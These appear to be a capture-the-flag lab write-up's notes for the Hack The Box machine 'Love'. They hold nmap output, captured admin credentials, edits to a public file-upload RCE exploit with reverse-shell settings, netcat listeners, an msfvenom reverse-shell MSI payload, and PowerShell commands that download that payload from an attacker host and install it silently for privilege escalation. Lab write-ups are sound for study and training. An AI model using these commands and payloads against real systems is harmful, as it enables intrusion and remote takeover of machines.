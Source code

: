 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Love
# 11/4/2023
10.10.10.239

----------------------------------------------------
# creds
----------------------------------------------------
 admin : @LoveIsInTheAir!!!!

----------------------------------------------------
# nmap
----------------------------------------------------
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)


----------------------------------------------------
# foothold
----------------------------------------------------
sudo nano /etc/nano
echo "10.10.10.239 www.love.htb staging.love.htb" >> /etc/hosts

www.love.htb

└─$ searchsploit voting system
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)         | php/webapps/49445.py


 staging.love.htb

 http://staging.love.htb/beta.php

 By trying to visit the www.love.htb:5000 we notice though the following message:
You don't have permission to access this resource .

However, if we manage to reach http://127.0.0.1:5000/ we can view what is running internally.
Now it is also possible to extract passwords for the OMRS as shown below, via port 5000.


Vote Admin Creds admin: @LoveIsInTheAir!!!! 

modify exploit


# --- Edit your settings here ----
IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.18" # Reverse shell IP
REV_PORT = "8888" # Reverse port
# --------------------------------
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"


└─$ nc -lvnp 8888

└─$ python3 49445.py


----------------------------------------------------
# Privilege Escalation
----------------------------------------------------
 msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=9001 -f msi -o rev.msi

 powershell wget http://10.10.16.2/rev.msi -outfile rev.msi

 C:\ProgramData> powershell wget http://10.10.16.2/rev.msi -outfile rev.msi

└─$ rlwrap nc -lvnp 9001 

C:\ProgramData>msiexec /quiet /qn /i rev.msi
 got a root
 